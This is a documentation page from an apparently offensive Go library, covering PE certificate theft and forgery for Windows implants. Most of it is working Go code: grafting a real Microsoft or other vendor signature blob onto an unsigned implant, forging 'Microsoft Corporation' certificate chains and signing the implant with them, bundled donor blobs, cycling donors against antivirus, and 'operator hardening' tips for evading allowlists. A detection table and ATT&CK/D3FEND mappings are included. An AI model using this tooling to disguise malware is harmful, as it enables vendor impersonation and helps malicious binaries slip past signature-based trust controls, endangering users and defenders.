


# PE Certificate Theft

[← pe index](README.md) · [docs/index](../../index.md)

## TL;DR

Take the digital signature blob out of a real, signed program
(say, `notepad.exe`) and paste it into an unsigned implant. The
implant now LOOKS signed in any tool that asks "is there a
signature?" — Properties dialog, naive AV scripts, basic
allowlist checks — even though `signtool verify` would still
reject it (the signature was made for `notepad.exe`'s bytes,
not yours).

Three layers ship in this package, each adding more realism:

| Tool | What you get | What still fails |
|---|---|---|
| [`Copy`](#copysrcpe-dstpe-string-error) | Real Microsoft (or any donor) signature blob in your PE. Properties dialog reads "Microsoft Corporation". | `signtool verify` says "hash mismatch" — the donor's hash doesn't match your bytes. |
| [`Forge`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#Forge) | A self-built cert chain (Leaf → optional Intermediate → Root) wrapped in PKCS#7. You control every field. | Same hash mismatch + chain root is unknown to Windows. |
| [`SignPE`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#SignPE) | Real Authenticode signature over your PE's actual hash, with a forged chain. signtool extracts the chain cleanly. | Trust-store walk: Windows doesn't recognize your self-signed root. The only way past this is a leaf cert from a CA Windows trusts (stolen / purchased). |

## Primer — vocabulary

If you're new to Windows code-signing, three terms recur
throughout this page:

> **WIN_CERTIFICATE** — the binary blob (header + PKCS#7 payload)
> appended at the end of a signed PE. 8-byte header
> (length / revision / type) + the cryptographic content.
>
> **Security directory** — entry index 4 in the PE optional-header
> "data directories". Its `VirtualAddress` field points at where
> the WIN_CERTIFICATE lives in the file (unusually, this is a
> file offset, NOT a virtual address — the only data directory
> that works this way).
>
> **Authenticode hash** — a special SHA-256 of the PE that
> *excludes* the parts that change when you sign it (the
> CheckSum field, the security directory entry, and the
> certificate table itself). This is what the signature
> actually attests to — it's why moving a signature between
> two PEs always fails verification: the hash differs.
>
> **PKCS#7 SignedData** — the cryptographic envelope inside the
> WIN_CERTIFICATE: list of certificates + signer info + signature.
> Authenticode adds Microsoft-specific fields on top
> (`SpcIndirectDataContent` carrying the Authenticode hash).

## How a signature check works



Naive checks (Properties dialog "Publisher" line, scripts that
only look at `(Get-AuthenticodeSignature).Status -ne $null`)
stop at the first branch — presence is enough for them.
Defenders that matter (`signtool verify /pa`, SmartScreen,
AppLocker with publisher rules, EDR file-write telemetry)
walk the full chain.

The package is **cross-platform**: cert blobs are pure-byte PE
manipulation, no Win32 APIs involved. Use it on a Linux build
host to prepare implants without round-tripping through
`signtool.exe`.

## How It Works



The PE security directory (data directory index 4) is unique:
its `VirtualAddress` field is a **file offset**, not an RVA.
WIN_CERTIFICATE structures are appended after the last section,
8-byte aligned. `Read` parses the directory entry and returns
the raw blob; `Write` truncates / appends + patches.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/pe/cert`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Quick start — your first cert graft (read this one)

You have an unsigned `implant.exe` and you want it to look signed.
The shortest path is to copy a real Authenticode signature from
some trusted Windows binary onto your file. Here Microsoft Edge
is a good donor (it carries a real Microsoft signature in its PE).

```go
package main

import (
    "fmt"
    "log"

    "github.com/oioio-space/maldev/pe/cert"
)

func main() {
    donor   := `C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe`
    implant := `C:\loader.exe`

    // Step 1: confirm the implant has NO signature today.
    has, err := cert.Has(implant)
    if err != nil { log.Fatal(err) }
    fmt.Println("before — has signature?", has)  // → false

    // Step 2: copy the Edge signature onto the implant.
    //         Internally: read Edge's WIN_CERTIFICATE blob,
    //         append it to implant.exe, patch the security
    //         directory, recompute the optional-header CheckSum.
    if err := cert.Copy(donor, implant); err != nil {
        log.Fatal(err)
    }

    // Step 3: confirm the implant LOOKS signed.
    has, _ = cert.Has(implant)
    fmt.Println("after  — has signature?", has)  // → true

    // Step 4: parse the grafted signature to see who "signed" us.
    parsed, err := cert.Inspect(implant)
    if err != nil { log.Fatal(err) }
    fmt.Println("apparent signer:", parsed.Subject)
    // → CN=Microsoft Corporation, O=Microsoft Corporation, ...
}
```

What this does NOT achieve:

- `signtool verify /pa C:\loader.exe` → `0x80096010` "hash
  mismatch". The signature is for Edge's bytes, not yours.
- SmartScreen / AppLocker with publisher rules will reject it.

What this DOES achieve:

- File Explorer → Properties → Digital Signatures shows
  "Microsoft Corporation".
- PowerShell `(Get-AuthenticodeSignature C:\loader.exe).SignerCertificate`
  returns Microsoft's leaf cert (because the cert IS Microsoft's
  — only the file it's attached to has changed).
- Naive "is this file signed?" allowlists pass.

This is the **Copy** path: minimum effort, maximum cosmetic.
The two paths below add increasing realism (`Forge` lets you
control the apparent signer; `SignPE` actually signs your hash).

### Simple — copy a Microsoft cert onto an implant (one-liner)

For when you don't need the explanation:

```go
import "github.com/oioio-space/maldev/pe/cert"

if err := cert.Copy(
    `C:\Windows\System32\notepad.exe`,
    `C:\Users\Public\implant.exe`,
); err != nil {
    panic(err)
}
```

⚠ `notepad.exe` on modern Windows is **catalog-signed** (no
embedded signature) — `cert.Copy` will return `ErrNoCertificate`.
Use a third-party signed donor instead (Edge, OneDrive, Acrobat,
Firefox, VS Code, …). See [Catalog signing](catalog-signing.md)
for why System32 binaries don't carry embedded blobs.

### Forge — invent your own cert chain, no donor needed

`Copy` requires a donor PE you can read. `Forge` skips that step
by **generating** a cert chain in pure Go: you pick the publisher
name, organization, validity dates — anything you'd see in the
Properties dialog. The output is wrapped in a SignedData blob and
ready to paste into a PE just like a real donor's blob.

**Why use this instead of Copy?**

- You control every visible field — useful for impersonating a
  vendor whose binary you don't have on your build host.
- No dependency on a donor file existing at runtime.
- The chain is uniquely yours — no two implants share a
  fingerprint (each `Forge` call generates fresh keys + serials).

**What you still don't get** (same as Copy): the chain is
self-signed → no Windows root trusts it → `signtool verify` rejects.
For a chain that signtool *parses* cleanly (trust-store walk
still fails), use [`SignPE`](#signpe--actually-sign-your-pe-real-authenticode)
instead.

```go
package main

import (
    "crypto/x509/pkix"
    "fmt"
    "log"

    "github.com/oioio-space/maldev/pe/cert"
)

func main() {
    // Build the chain in memory. Three tiers (leaf → intermediate
    // → self-signed root) look more legitimate than two; matches
    // real-world publisher → CA → root patterns.
    chain, err := cert.Forge(cert.ForgeOptions{
        LeafSubject: pkix.Name{
            CommonName:   "Microsoft Corporation",
            Organization: []string{"Microsoft Corporation"},
            Country:      []string{"US"},
        },
        IntermediateSubject: pkix.Name{
            CommonName: "Microsoft Code Signing PCA 2024",
        },
        RootSubject: pkix.Name{
            CommonName: "Microsoft Root Certificate Authority 2024",
        },
        // ValidFrom / ValidTo default to [now-1y, now+5y] — naive
        // "is the cert still in date" checks pass for 5 years.
    })
    if err != nil { log.Fatal(err) }

    fmt.Println("forged leaf subject:", chain.Leaf.Subject)
    fmt.Println("leaf serial:        ", chain.Leaf.SerialNumber)
    fmt.Println("blob size:          ", len(chain.Certificate.Raw), "bytes")

    // Splice into the implant. cert.Write recomputes the
    // optional-header CheckSum so the file remains internally
    // consistent.
    if err := cert.Write(`C:\loader.exe`, chain.Certificate); err != nil {
        log.Fatal(err)
    }
    // → loader.exe Properties → Publisher: Microsoft Corporation
}
```

**Reusing the chain**: `chain.Leaf`, `chain.LeafKey`, `chain.Root`,
`chain.RootKey` are all returned so you can graft the same
identity onto multiple PEs without paying the keygen cost twice
(RSA-2048 generation takes ~30-100ms).

### SignPE — actually sign your PE (real Authenticode)

`Forge` builds a chain but doesn't actually sign **your** file —
the SignedData wraps an arbitrary `Content` byte string (or empty
by default), not your PE's hash. `signtool verify` notices this
and refuses to even parse the signature ("No signature found").

`SignPE` closes that gap. It computes your PE's Authenticode
hash, wraps it in the Microsoft-canonical `SpcIndirectDataContent`,
hand-rolls a SignedData with all the right ASN.1 fields
(`eContentType` set to the Authenticode OID, signed attributes
including `messageDigest` over your hash, RSA-SHA256 signature
from a forged leaf key), and splices the result into the PE.

**End result**: `signtool verify /pa /v loader.exe` parses the
chain, prints the publisher / validity / fingerprints, and only
fails on the very last step — the trust-store walk — because the
root is self-signed:

```text
Verifying: C:\loader.exe
Signature Index: 0 (Primary Signature)
Hash of file (sha256): 0E9A...C6DB

Signing Certificate Chain:
    Issued to: Microsoft Root Certificate Authority
    Issued by: Microsoft Root Certificate Authority
    Expires:   Mon May 05 10:01:40 2031
    SHA1 hash: C354...9C29

        Issued to: Microsoft Corporation
        Issued by: Microsoft Root Certificate Authority
        Expires:   Mon May 05 10:01:40 2031
        SHA1 hash: 464E...5DF5

SignTool Error: A certificate chain processed, but terminated in
                a root certificate which is not trusted by the
                trust provider.
```

That last error (`0x800B0109`) is the only difference between
this output and a fully-trusted Microsoft signature. To close it
in pure Go is **impossible** — you'd need a leaf cert issued by
a CA Windows already trusts (stolen from a real signer, or
purchased EV).

```go
package main

import (
    "crypto/x509/pkix"
    "fmt"
    "log"

    "github.com/oioio-space/maldev/pe/cert"
)

func main() {
    chain, err := cert.SignPE(`C:\loader.exe`, cert.SignOptions{
        LeafSubject: pkix.Name{
            CommonName:   "Microsoft Corporation",
            Organization: []string{"Microsoft Corporation"},
            Country:      []string{"US"},
        },
        RootSubject: pkix.Name{
            CommonName: "Microsoft Root Certificate Authority",
        },
        // No IntermediateSubject → 2-tier chain (leaf + root).
        // Add IntermediateSubject for the more legitimate-looking
        // 3-tier shape Microsoft actually uses.
    })
    if err != nil { log.Fatal(err) }

    fmt.Println("signed leaf:    ", chain.Leaf.Subject)
    fmt.Println("leaf SHA1:      ", chain.Leaf.Raw[:4], "…") // truncated
    fmt.Println("file CheckSum recomputed automatically by SignPE.")
}
```

**When to choose Copy vs Forge vs SignPE**:

- **Copy**: you have a donor PE, you want maximum cosmetic with
  zero crypto. Detection class: any tool that hashes the file
  rejects you immediately.
- **Forge**: no donor available, you want any "publisher" name.
  Same detection class as Copy plus the chain root is unknown.
- **SignPE**: same effort as Forge but `signtool verify` extracts
  the chain instead of refusing to parse — the implant looks like
  it was intentionally signed (just by an unknown CA). Better
  blend-in for tools that LOG signature details but don't enforce
  trust strictly.

### Composed — external signer pipeline (BYO key)

When the signing key lives in a CSP / HSM / detached service,
use [`AuthenticodeContent`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#AuthenticodeContent)
to compute just the signing input and let the external signer
take it from there.

```go
import "github.com/oioio-space/maldev/pe/cert"

// Phase 1 helper: PE Authentihash + canonical SpcIndirectDataContent
// in one call. Pipe to signtool /sign / osslsigncode / a remote
// signing service.
spc, err := cert.AuthenticodeContent(`C:\loader.exe`)
if err != nil { panic(err) }
_ = spc
```

### Composed — morph + cert + presence check

Layer with `pe/morph` so the static fingerprint is altered before
the cert is grafted on.

```go
import (
    "os"

    "github.com/oioio-space/maldev/pe/cert"
    "github.com/oioio-space/maldev/pe/morph"
)

raw, _ := os.ReadFile(`C:\loader.exe`)
raw, _ = morph.UPXMorph(raw)
_ = os.WriteFile(`C:\loader.exe`, raw, 0o644)

_ = cert.Copy(`C:\Windows\System32\notepad.exe`, `C:\loader.exe`)
ok, _ := cert.Has(`C:\loader.exe`) // true
```

### Advanced — round-trip donor selection

Cache the existing cert, try multiple donors, restore on burn.

```go
import (
    "os"

    "github.com/oioio-space/maldev/pe/cert"
)

target := `C:\loader.exe`
_ = cert.Strip(target, `C:\old.cert`)

candidates := []string{
    `C:\Windows\System32\notepad.exe`,
    `C:\Program Files\Google\Chrome\Application\chrome.exe`,
    `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`,
}
for _, donor := range candidates {
    _ = cert.Copy(donor, target)
    // run target through the AV under test, observe verdict, decide
}

// Restore original if every candidate burned.
saved, _ := os.ReadFile(`C:\old.cert`)
_ = cert.Write(target, &cert.Certificate{Raw: saved})
```

See [`ExampleRead`](../../../pe/cert/cert_example_test.go) and
[`ExampleCopy`](../../../pe/cert/cert_example_test.go).

### Operational — bundled donor cert blobs

10 reference Authenticode blobs ship pre-extracted inside
[`pe/masquerade/donors`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/masquerade/donors)
(snapshot date exposed as `donors.SnapshotDate`). Graft offline
with zero donor on disk:

```go
import (
    "github.com/oioio-space/maldev/pe/cert"
    "github.com/oioio-space/maldev/pe/masquerade/donors"
)

raw, _ := donors.LoadBlob("claude") // also: cert.Write recomputes
_ = cert.Write(`implant.exe`,       // the PE checksum automatically.
    &cert.Certificate{Raw: raw})
```

Bundled IDs (each `<id>.bin` in `pe/masquerade/donors/blobs/`):
`acrobat`, `claude`, `excel`, `explorer`, `firefox`, `msedge`,
`onedrive`, `svchost`, `taskmgr`, `vscode`. Enumerate at runtime
via [`donors.AvailableBlobs`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/masquerade/donors#AvailableBlobs).

#### Pick a donor by signer subject — `donors.ParseAll`

[`donors.ParseAll`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/masquerade/donors#ParseAll)
returns the parsed Authenticode metadata for every bundled blob,
keyed by ID. Useful when the operator wants "any Microsoft signer"
rather than committing to a specific donor up-front:

```go
import (
    "strings"

    "github.com/oioio-space/maldev/pe/cert"
    "github.com/oioio-space/maldev/pe/masquerade/donors"
)

for id, p := range donors.ParseAll() {
    if strings.Contains(p.Subject, "Microsoft Corporation") &&
        p.NotAfter.After(time.Now().AddDate(1, 0, 0)) {
        raw, _ := donors.LoadBlob(id)
        cert.Write("implant.exe", &cert.Certificate{Raw: raw})
        break
    }
}
```

[`donors.ParseBlob(id)`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/masquerade/donors#ParseBlob)
is the single-blob counterpart for the common case.

Unbundled IDs (`cmd`, `notepad`, `sevenzip`, `wt`) — see
"Why some donors don't have bundled blobs" below.

#### Refresh / extend the bundled set — `cmd/cert-snapshot`

Authenticode roots rotate (Microsoft 2024, Adobe 2023). When a
bundled blob ages out, re-run the extractor against fresh
donors and overwrite the bundled files in-place:

```bash
go run ./cmd/cert-snapshot -out ./pe/masquerade/donors/blobs
# wrote pe/masquerade/donors/blobs/svchost.bin (10408 bytes) <- C:\WINDOWS\System32\svchost.exe
# wrote pe/masquerade/donors/blobs/msedge.bin  (10056 bytes) <- ...msedge.exe
# wrote pe/masquerade/donors/blobs/claude.bin  (10400 bytes) <- ...claude.exe
# ...
```

`-out` defaults to `./ignore/certs` (gitignored work directory)
when you want a sandbox extraction without touching the bundled
set. To extend with new donors, add them to
[`donors.All`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/masquerade/donors#pkg-variables)
and re-run.

#### Why some donors don't have bundled blobs

`cmd`, `notepad` and most System32 binaries on Win10/11 ship
**without an embedded WIN_CERTIFICATE**. Their signature lives
in the system *security catalog*
(`C:\Windows\System32\CatRoot\*.cat`) — `signtool verify`
resolves it via the catalog at runtime, so `pe/cert.Read`
correctly returns `ErrNoCertificate` from the PE itself.
cert-snapshot's SKIP is faithful, not a bug. Cloning a
catalog-signed identity needs a different attack
(catalog poisoning / catalog hash forge) — out of scope for
`pe/cert`. `sevenzip` ships unsigned; `wt` lives under the
WindowsApps DACL and can't be opened.

#### Caveats — bundled blobs are not cryptographically valid

Same as direct [`cert.Copy`](#copysrcpe-dstpe-string-error):
the grafted signature does NOT verify under `signtool verify
/pa` because the implant's Authenticode hash differs from the
donor's. Useful only for the cosmetic + naive-static-scanner
cases described in OPSEC below.

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| `signtool verify /pa <implant.exe>` failure | Any defender that actually validates signatures sees a chain failure |
| Modified file size + 8-byte alignment padding | EDR file-write telemetry; unusual delta-from-known-good if the signed donor was hashed earlier |
| Cert subject / issuer mismatched against the implant's metadata (CompanyName, OriginalFilename) | Mature allowlists cross-check signer identity vs `VERSIONINFO` |
| Naive `Get-AuthenticodeSignature` checking only `.Status -eq 'Valid'` | False-negative on the modified cert; common in homebrew scripts |

**D3FEND counters:**

- [D3-EAL](https://d3fend.mitre.org/technique/d3f:ExecutableAllowlisting/)
  — strict allowlisting validates the chain.
- [D3-SEA](https://d3fend.mitre.org/technique/d3f:StaticExecutableAnalysis/)
  — cert-blob inspection on submission.

**Hardening for the operator:**

- Pair with [`pe/masquerade`](masquerade.md) so the
  VERSIONINFO / manifest matches the donor cert's identity.
- Use a donor whose subject matches the *implant's apparent
  purpose* (PowerShell signer for a `pwsh.exe` lookalike, etc.).
- Recompute the PE checksum if downstream tooling validates it.
- Don't deploy where signature chain validation is enforced
  (Defender ATP, SmartScreen, AppLocker with publisher rules).

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1553.002](https://attack.mitre.org/techniques/T1553/002/) | Subvert Trust Controls: Code Signing | full — clone a third-party signature blob | D3-EAL, D3-SEA |

## Limitations

- **Signature won't verify.** Cryptographic chain validation
  (`signtool verify`, SmartScreen, AppLocker publisher rules)
  catches the substitution.
- **Checksum recomputation handled internally.** `Strip` and `Write`
  both call [`PatchPECheckSum`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#PatchPECheckSum)
  after the splice — the optional-header `CheckSum` is rebuilt with
  the MS `ImageHlp!CheckSumMappedFile` algorithm so downstream
  verifiers that check it (rare in user-mode, mandatory for kernel
  drivers) see a self-consistent value. Independent callers can
  invoke `PatchPECheckSum(data)` directly after their own splices.
- **Bundled cert blobs age.** `pe/masquerade/donors/blobs/<id>.bin`
  ships a snapshot taken on
  [`donors.SnapshotDate`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/masquerade/donors#pkg-constants).
  Authenticode roots rotate (Microsoft renewed in 2024, Adobe in
  2023) — once a bundled cert's NotAfter passes or its issuer is
  retired, file-properties UI may hint "expired publisher". Refresh
  via `cmd/cert-snapshot -out ./pe/masquerade/donors/blobs` and
  commit. The blobs themselves ARE published research artefacts
  and may be fingerprinted by threat-intel crawlers indexing the
  repo — accepted trade-off for the offline-graft convenience.
- **`Forge` chain fails trust-store validation.** `Forge` builds
  a 2- or 3-tier self-signed chain wrapped in PKCS#7 SignedData
  with eContentType = OIDData. `SignPE` upgrades that to a real
  Authenticode-shaped SignedData (eContentType =
  OIDSpcIndirectDataContent, canonical SpcPEImageData, signed
  attributes, leaf-key signature) — `signtool verify /v` now
  extracts the chain and reports `0x800B0109` "untrusted root"
  rather than the previous "no signature found". The remaining
  gap is purely the trust-store walk: a self-signed root cannot
  be made trusted in pure Go. Closing this gap requires a leaf
  cert issued by a CA Windows trusts (stolen / purchased EV) —
  out of scope for any pure-Go library. Two further historical
  gaps from the old Forge are now closed:
   1. The signed content is not a real `SpcIndirectDataContent`
      over the PE hash. **Phase 1 of the fix shipped at v0.43.0**:
      `BuildSpcIndirectDataContent(digest, hashAlg)` produces the
      canonical ASN.1 blob; pair with
      `pe/parse.File.Authentihash` for the digest. **Phase 2 (not
      yet shipped)**: a `ForgeForPE(pePath, opts)` entry point
      that hand-rolls the outer SignedData with
      `ContentInfo.contentType = OIDSpcIndirectDataContent` —
      `secDre4mer/pkcs7` doesn't expose an OID-override surface,
      so this needs a sibling ASN.1 marshaller.
   2. The leaf key + chain are self-signed. Real validity needs
      a CA-trusted leaf key (stolen private key, purchased EV
      cert) — entirely out of scope; no library substitute.
- **Validity-window mismatch.** Donor certs have NotBefore /
  NotAfter; an implant deployed outside that window flags as
  expired even before the chain is checked.

## See also

- [PE masquerade](masquerade.md) — clone the donor's manifest +
  VERSIONINFO + icon to match the cert subject.
- [PE strip / sanitize](strip-sanitize.md) — pair to scrub
  Go-toolchain markers before/after the cert graft.
- [Operator path](../../by-role/operator.md).
- [Detection eng path](../../by-role/detection-eng.md).
